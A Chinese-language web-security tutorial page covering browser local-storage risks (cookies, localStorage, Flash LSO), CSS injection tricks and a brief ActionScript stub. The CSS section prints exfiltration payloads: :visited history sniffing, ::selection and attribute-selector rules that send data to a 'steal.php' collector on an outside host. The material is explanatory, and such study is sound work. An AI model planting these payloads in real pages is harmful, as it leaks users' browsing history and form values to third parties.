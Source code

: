 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)本地存储风险+CSS+ActionScript


## ![](../img/github11.png)本地存储风险
>小贱提示： 本地存储的主要风险是被植入广告跟踪标志。

#### Cookie
见“Cookie安全”

#### userData
这种存储方式仅IE浏览器自己支持，key-value模式

#### localStorage
HTML5的本地存储，key-value模式，如果仅存储在内存中，则是sessionStorage。

语法都一样，只是一个存储在本地，一个存储在内存。

语句如下：
```
localStorage.setItem("a","xxxxx");  	// 设置
localStorage.getItem("a");				//获取a的值
localStorage.removeItem("a")			//删除a的值

localStorage存储对XSS没有任何防御机制，不像cookie有HttpOnly，所以一旦有XSS，localStorage就泄露了
localStorage没有时限，需用户主动删除，否则永久存在
```
#### Flash Cookie
Flash的本地共享对象（LSO），key-value模式，跨浏览器
## ![](../img/github10.png)CSS

#### CSS容错性
在前面加花括号{}即可正常解析含有非法字符的代码。（IE浏览器下是}）
如
```html
{}h1{font-size:50px;color:red;</style><div>XXX</div>}h2{color:green}
```
#### 样式伪装
用于ClickJacking和XSS高级钓鱼
#### CSS伪类

|  伪类   |  描述   |
| --- | --- |
| :link			| 	有链接属性时|
| :visited	| 		链接被访问过|
| :active		| 	点击激活时|
| :hover		| 	鼠标移过时|

:visited举例

曾经的CSS History利用:visited伪类（已经修复，举这个例子为了方便理解原理）
```html
先准备一批如下形式的常用链接：
<a href="http://www.baidu.com/" id="a1">http://www.baidu.com/</a><br />
<a href="http://www.17173.com/" id="a2">http://www.17173.com/</a><br />
<a href="http://www.joy.com/" id="a3">http://www.joy.com/</a><br />
<a href="http://www.qq.com/" id="a4">http://www.qq.com/</a><br />
<a href="http://www.rayli.com/" id="a5">http://www.rayli.com/</a><br />
针对id设置对应的:visited样式：
#a1:visited {background: url(http://www.8pwn.com/css/steal.php?data=a1);}
#a2:visited {background: url(http://www.8pwn.com/css/steal.php?data=a2);}
#a3:visited {background: url(http://www.8pwn.com/css/steal.php?data=a3);}
#a4:visited {background: url(http://www.8pwn.com/css/steal.php?data=a4);}
#a5:visited {background: url(http://www.8pwn.com/css/steal.php?data=a5);}
```
>小贱提示：
>
>如果某链接之前被访问过（即存在于历史纪录中的），则:visited会触发，并发送请求到目标网址，这样就知道被攻击者历史纪录中是否存在这个网站

::selection举例

Chrome下有效
```html
<style>
#select{border:1px dashed #09c;}
#select::selection{background:url(http://www.8pwn.com/css/steal.php?data=selection);}
</style>
<div id="select">select me</div>
```

#### CSS3属性选择符

判断目标input表单项的值是否以x开头，如果是，则触发一次唯一性请求：
```html
<style>
input[value^="x"]{background: url(http://www.8pwn.com/css/steal.php?data=0x);}
</style>
attr selector: <input type="text" value="xyz" /><br />
[ok] ff12/chrome19/opera12<br /><br />
```
>小贱提示：没什么实用价值，只是思路值得学习

## ![](../img/github12.png)ActionScript
简称AS，与JS都遵循ECMAScipt标准，所以同样遵循E4X




__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
